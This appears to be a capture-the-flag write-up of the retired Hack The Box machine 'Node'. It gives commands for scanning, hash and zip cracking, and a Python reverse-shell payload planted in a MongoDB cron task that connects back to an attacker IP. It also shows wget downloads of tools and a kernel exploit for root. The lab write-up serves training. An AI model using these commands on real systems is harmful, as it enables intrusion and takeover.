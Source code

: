 ```yaml
---
title: Node Hackthebox Writeup
date: 2021-01-26 01:00:00 +0900
categories: [Hackthebox, Retired]
tags: [linux,cronjobs,directory bruteforcing,kernel exploit,ssh]     # TAG names should always be lowercase
image: /assets/img/node-hackthebox/node-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Node:~$


Column | Details
------------ | -------------
Name | Node
IP | 10.10.10.58
Points | 30
Os | Linux
Difficult | Medium
Creator | [g0blin](https://www.hackthebox.eu/home/users/profile/343)
Out on | 2th June 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Detecting hidden directories `/api/users/` to find hash for the users.
* Cracking hash and downloading a backup file.
* Cracking password on the file to get the `SSH` password.
* Escalating privilges to another user by loging in `mongodb`.
* Exploited `Kernel Version` to gain Root.

## Nmap

Using `Nmap` to scan the host.

**Command**: *nmap -p- -sV -T4 -Pn 10.10.10.58*

___
![](/assets/img/node-hackthebox/nmap-scan-1.png)

Accessing port 3000, we get a website:

___
![](/assets/img/node-hackthebox/port-3000-2.png)

Using `dirbuster` on *http://10.10.10.58:3000/* to find hidden directories.

___
![](/assets/img/node-hackthebox/dirbuster-command-3.png)

**Wordlist Used**: *directory-list-2.3-medium.txt*

I looked for `SQL injections` on the *login* page, but it didn't work.

**Command Used**: *' or 1=1 --+*

___
![](/assets/img/node-hackthebox/login-page-4.png)

From `dirbuster` I found few directories and accessed this `http://10.10.10.58:3000/api/users/`

___
![](/assets/img/node-hackthebox/got-new-user-12.png)

These are the hashes which are given with each user, so I used [online hash cracking tool](https://hashes.com/en/decrypt/hash) to decode them.

* **tom**:`spongebob`
* **mark**:`snowflake`
* **myP14ceAdm1nAcc0uNT**:`manchester`

I tried loging in `SSH` first but didn't work, accessing login page for `mark`,`tom`.

___
![](/assets/img/node-hackthebox/loging-in-as-mark-11.png)

___
![](/assets/img/node-hackthebox/loging-in-as-tom-10.png)

Both of them are not `Admins`, Let's look into *myP14ceAdm1nAcc0uNT*.

___
![](/assets/img/node-hackthebox/loging-in-as-myplaceadminaccount-14.png)

Downloading `myplace.backup` file and opening it in *Geany Tool* for Kali Linux.

___
![](/assets/img/node-hackthebox/myplace.backup-file-15.png)

It looks like that the file is `base64` encoded, let's decode it first and then access it.

**Command Used**:*cat myplace.backup| base64 -d > backup.zip*

`backup.zip` requires a password.

___
![](/assets/img/node-hackthebox/decoded-backup-file-requires-password-16.png)

Using `fcrackzip` to crack the password.

**Command Used**: *fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt  backup.zip* (sudo apt-get install fcrackzip).

___
![](/assets/img/node-hackthebox/fcrackzip-password-found-17.png)

We got the password as `magicword`.

Now while accessing the `var` directory, I found a password for mark in `/var/www/myplace/app.js` as `5AYRft73VtFpc84k`.

___
![](/assets/img/node-hackthebox/got-mark-password-18.png)

`SSH` as mark.

___
![](/assets/img/node-hackthebox/ssh-loggedin-as-mark-19.png)

We don't have the permission to read the user flag, I used [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and [pspy32](https://github.com/DominicBreuker/pspy/blob/master/README.md)

**Hosting Command**: *python3 -m http.server 8081*

**Downlaoding Command**: *wget http://10.10.X.X:8081/linpeas.sh*    (or *pspy32s*)

I executed `linpeas.sh` by giving it executing permission (*chmod +x linpeas.sh*)

___
![](/assets/img/node-hackthebox/mongodb-running-locally-25.png)

Here port `27017` is for *mongodb* which is running locally as *Tom*.

___
![](/assets/img/node-hackthebox/only-reading-permissions-24.png)

Loging into `mongodb`.

**Command Used**: *mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler*

where *scheduler*: Database name.

___
![](/assets/img/node-hackthebox/loging-in-mongodb-26.png)

As shown above there is not any task running in `scheduler`, but it's a cronjob *(saw that in pspy32)* as Tom. Let's add our [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and listen on the specifed port using `nc`.

**Payload**: *db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.X.X\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})*

___
![](/assets/img/node-hackthebox/getting-reverse-shell-as-tom-27.png)

We got `User flag`.

For privilege escalation I looked for a kenerl exploit as it is outdated, found [this](https://www.exploit-db.com/exploits/45010)

___
![](/assets/img/node-hackthebox/kernel-exploit-29.png)

Transfered it to victim machine.

**Hosting Command**: *python3 -m http.server 8081*

**Downlaoding Command**: *wget http://10.10.X.X:8081/exploit.c*

Compiling it on the victim machine.

**Command**: *gcc exploit.c -o privesc*

I executed `privesc` by giving it executing permission (*chmod +x privesc*).

Stabling the [shell](https://netsec.ws/?p=337).

___
![](/assets/img/node-hackthebox/got-root-flag-32.png)

Got `Root`.





